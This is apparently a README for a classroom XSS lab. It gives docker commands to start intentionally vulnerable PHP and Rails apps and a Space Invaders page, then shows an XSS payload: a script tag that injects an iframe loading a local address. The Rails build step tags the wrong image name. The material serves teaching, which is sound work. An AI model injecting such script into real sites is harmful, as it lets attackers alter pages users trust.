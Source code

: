 # unifbv.5SENO aula-03

### Start XSS PHP

- cd xss-php
- docker build -t xss-php .
- docker run -d -p 8080:80 xss-php

### Start XSS Rails

- cd xss-rails
- docker build -t xss-php .
- docker run -d -p 3000:3000 xss-rails

### Start Space Invaders

- cd space-invaders
- docker build -t space-invaders .
- docker run -d -p 8081:80 space-invaders

### XSS inject iframe

<script>
  var iframe    = document.createElement('iframe');
  iframe.src    = 'http://127.0.0.1:8000';
  iframe.width  = '800'; 
  iframe.height = '585';
  document.body.appendChild(iframe);
</script>

